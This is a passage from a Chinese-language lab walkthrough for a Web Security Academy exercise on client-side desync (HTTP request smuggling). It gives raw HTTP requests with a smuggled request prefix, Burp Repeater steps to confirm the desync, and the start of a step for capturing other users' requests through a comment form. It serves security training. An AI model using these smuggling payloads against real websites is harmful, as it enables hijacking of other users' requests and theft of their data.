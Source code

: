 ```bash
GET / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Content-Length:110
```

[![](assets/1705301772-d76cf2d6c3fd12a7d4d0c7f5a02cb1da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183241-3f4098fe-b2c8-1.png)  
随后重新启用"Content-Length"长度更新选项并在正文中添加任意请求走私前缀，同时更改 Connection 为"keep-alive"

```bash
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection:keep-alive
Content-Length:

GET /hopefully404 HTTP/1.1
Foo: x
```

在恶意请求之后将"GET /"的正常请求添加到选项卡组并使用发送按钮旁边的下拉菜单将发送模式更改为按顺序发送组 (single connection)  
[![](assets/1705301772-50fad2cf1699ade60d498edeee132be7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183310-5042e6b6-b2c8-1.png)  
发送序列并检查响应，如果对第二个请求的响应与您所期望的走私前缀相匹配，则可以确认您可以导致去同步  
[![](assets/1705301772-54f608cd5429633e0f325436e02b3e25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183322-575088b4-b2c8-1.png)  
随后回到 Burp 的浏览器中，访问其中一篇博客文章并观察到有一个包含评论功能，从 Proxy>HTTP 历史记录中找到"GET /en/post?postId=x"，在 Burp Repeater 中使用上一节中的 desync 矢量尝试在注释中捕获您自己的任意请求，例如：
